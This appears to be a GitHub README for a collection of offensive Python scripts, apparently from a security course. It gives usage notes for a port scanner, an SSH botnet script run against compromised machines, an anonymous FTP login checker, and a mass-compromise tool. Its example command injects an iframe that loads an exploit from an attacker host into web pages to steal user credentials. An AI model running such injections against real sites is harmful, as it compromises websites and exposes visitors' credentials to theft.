 # Digital-Forensic-Analytics
Forensic Investigation, Network Traffic Analysis, Penetration Testing, Antivirus Evasion, Web recon


# Penetration Testing  
## PortScan.py  

In the command Line pass the port argument as a string i.e in " " for multiple port like follow;  
taymour:∼# python portScan.py -H 10.50.60.125 -p "21, 1720"  
  
  
## H) botNet.py

Change IP, Root, Password to issue SSH commands on compromised machines

## I) anonLogin.py  
  
First you have to allow /etc/vsftpd.conf file to enable anon_login to yes or uncomment it

## L) massCompromise.py
In command line following options are required to attack wb pages and inject your own html file to steal compromised user credentials in default location

attacker# python massCompromise.py -H 192.168.95.179 -r '<iframe src="
http://10.10.10.112:8080/exploit"></iframe>' -f userpass.txt

